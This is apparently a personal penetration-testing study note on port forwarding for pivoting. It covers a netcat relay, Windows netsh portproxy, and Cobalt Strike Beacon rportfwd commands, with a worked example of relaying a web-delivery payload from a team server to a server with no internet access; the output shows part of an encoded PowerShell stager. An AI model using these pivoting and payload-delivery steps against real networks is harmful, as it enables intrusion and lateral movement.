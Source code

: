 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Port Forwards]]  
___

## Description:  

### Local Port Forwards

Linux:
This is how you can pivot to another port on the machine to get around firewalls.
```
nc -nlvp8080 0</tmp/backpipe | nc -v 127.0.0.1 80 1>/tmp/backpipe
```


### Reverse Port Forwards

### Powershell

The native `netsh` (short for Network Shell) utility allows you to view and configure various networking components on a machine, including the firewall.  There's a subset of commands called `interface portproxy` which can proxy both IPv4 and IPv6 traffic between networks.

The syntax to add a **v4tov4** proxy is:

```
netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp
```

-   **listenaddress** is the IP address to listen on (probably always 0.0.0.0).
-   **listenport** is the port to listen on.
-   **connectaddress** is the destination IP address.
-   **connectport** is the destination port.
-   **protocol** to use (always TCP).

on the relay,  create a portproxy that will listen on 4444 and forward the traffic to the target, also on 4444.

```
C:\>netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4444 connectaddress=10.10.14.55 connectport=4444 protocol=tcp
```
you can check it's there with `netsh interface portproxy show`.


Now from your host, instead of trying to connect to the target, connect to the portproxy relay
```
PS C:\> Test-NetConnection -ComputerName 10.10.17.71 -Port 4444

ComputerName     : 10.10.17.71
RemoteAddress    : 10.10.17.71
RemotePort       : 4444
InterfaceAlias   : Ethernet
SourceAddress    : 10.10.15.75
TcpTestSucceeded : True
```

To remove the portproxy:
```
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444
```

### CobaltStrike

### rportfwd Command


In many corporate environments, workstations are able to browse the Internet on ports 80 and 443, but servers have no direct outbound access (because why do they need it?).

Let's imagine that we already have foothold access to a workstation and have a means of moving laterally to a server - we need to deliver a payload to it but it doesn't have Internet access to pull it from our Team Server. We can use the workstation foothold as a relay point between our webserver and the target.

Host a scripted web delivery payload and then attemp to download it from the server

```
PS C:\> hostname
dc-2

PS C:\> iwr -Uri http://10.10.5.120/a
iwr : Unable to connect to the remote server
```

You don't need to be a local admin to create reverse port forwards on high ports.

The syntax for the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`. On the workstation (forward host and port should point to your payload on the team server):

```
beacon> rportfwd 8080 10.10.5.120 80
[+] started reverse port forward on 8080 to 10.10.5.120:80
```

This will bind port **8080** on the foothold machine, which we can see with **netstat**.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

Now any traffic hitting this port will be redirected to **10.10.5.120** on port **80**. On the server, instead of trying to hit **10.10.5.120:80**, we use **10.10.17.231:8080** (where 10.10.17.231 is the IP address of the workstation).
```
PS C:\> iwr -Uri http://10.10.17.231:8080/a

StatusCode        : 200
StatusDescription : OK
Content           : $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAOy9Wa/qSrIu+rzrV8yHLa21xNo
                    1wIAxR9rSNTYY444eTJ1SyRjjBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9EZoRXTvEfqyLz7UKLT863/9g6We7H0T
                    fm...
```

To stop the reverse port forward, do `rportfwd stop 8080` from within the Beacon or click the **Stop** button in the **Proxy Pivots** view.


### rportfwd_local

Beacon also has a `rportfwd_local` command.  Whereas `rportfwd` will tunnel traffic to the Team Server, `rportfwd_local` will tunnel the traffic to the machine running the Cobalt Strike client.

This is particularly useful in scenarios where you want traffic to hit tools running on your local system, rather than the Team Server.

Take this Python http server as an example, whilst running the CS client on Kali:


```
root@kali:~# echo "This is a test" > test.txt
root@kali:~# python3 -m http.server --bind 127.0.0.1 8080
Serving HTTP on 127.0.0.1 port 8080 (http://127.0.0.1:8080/)
```
```
beacon> rportfwd_local 8080 127.0.0.1 8080
[+] started reverse port forward on 8080 to rasta -> 127.0.0.1:8080
```

This will bind port 8080 on the machine running the Beacon and will tunnel the traffic to port 8080 of the localhost running the Cobalt Strike client.

Then on another machine in the network, try to download the file.

```
PS C:\> hostname
wkstn-2

PS C:\> iwr -Uri http://wkstn-1:8080/test.txt

StatusCode : 200
StatusDescription : OK
Content : This is a test

```




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (09:49 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
